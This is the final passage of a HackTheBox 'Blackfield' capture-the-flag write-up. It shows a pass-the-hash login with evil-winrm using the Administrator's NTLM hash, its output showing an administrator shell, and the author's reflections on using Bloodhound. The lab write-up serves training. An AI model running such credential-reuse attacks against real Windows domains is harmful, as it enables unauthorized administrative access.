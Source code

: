 And now we just have to pass the NTLM hash (the hash on the right of the colon), and we win.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# evil-winrm -i 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

## Afterthoughts

This box was super fun; not too difficult and brain draining, but long and memorable enough to learn some things. Bloodhound really stuck out to me on this one, as I was able to essentially map my entire attack path very early on. The entire attack chain made sense, and enumeration was essential; however, because of Bloodhound, enumeration was extremely easy because everything else was noticeably out of place (such as the forensic share having a description that included the name of an account in SMB).

-Dylan Tran 12/6/21
